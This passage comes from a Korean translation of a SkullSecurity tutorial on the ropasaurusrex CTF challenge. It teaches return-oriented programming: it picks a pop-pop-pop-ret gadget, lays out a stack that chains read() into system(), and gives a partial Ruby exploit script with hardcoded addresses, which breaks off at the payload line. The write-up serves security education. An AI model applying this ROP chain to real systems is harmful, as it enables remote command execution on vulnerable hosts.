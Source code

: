 
이건 다음 함수를 실행할 때 1~4개의 인자를 스택에서 지울 수 있게 해줍니다.
완벽해요!


그리고 이걸 직접 따라해 보고 있다면, pop들이 연속한 주소에 있어야 한다는 걸
기억하세요. 그래서 `egrep`으로 찾는 건 약간 위험합니다.


이제 `read()`가 사용한 세 개의 인자를 지우기 위해 세 개의 `pop`과 `ret`이 필요할
때, 주소 `0x80484b6`을 사용하면 됩니다. 그러면 스택을 이렇게 만들겠죠.


``` text
+----------------------+
|         ...          |
+----------------------+

+----------------------+ <-- system()의 프레임 시작
|      void *arg       | - 0x08049530 (버퍼)
+----------------------+
|   [return address]   | - 0x44444444
+----------------------+

+----------------------+
| [address of system]  | - 0xb7ec2450
+----------------------+

+----------------------+ <-- read()의 프레임 시작
|     size_t count     | - strlen(cmd)
+----------------------+
|      void *buf       | - 0x08049530 (버퍼)
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
| [address of "pppr"]  | - 0x080484b6
+----------------------+

+----------------------+
|         ...          |
+----------------------+
```


원격 서버에서 보내는 걸 받기 위해 `s.read()`를 취약점 공격 스크립트 마지막에
추가합시다. 현재 스크립트는 다음과 같습니다.

``` ruby
require 'socket'

s = TCPSocket.new("localhost", 4444)

# The command we'll run
cmd = ARGV[0] + "\0"

# From objdump -x
buf = 0x08049530

# From objdump -D ./ropasaurusrex | grep read
read_addr = 0x0804832C
# From objdump -D ./ropasaurusrex | grep write
write_addr = 0x0804830C
# From gdb, "x/x system"
system_addr = 0xb7ec2450
# From objdump, "pop/pop/pop/ret"
pppr_addr = 0x080484b6

# Generate the payload
payload = "A"*140 +
```

[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment
[core dump]: https://en.wikipedia.org/wiki/Core_dump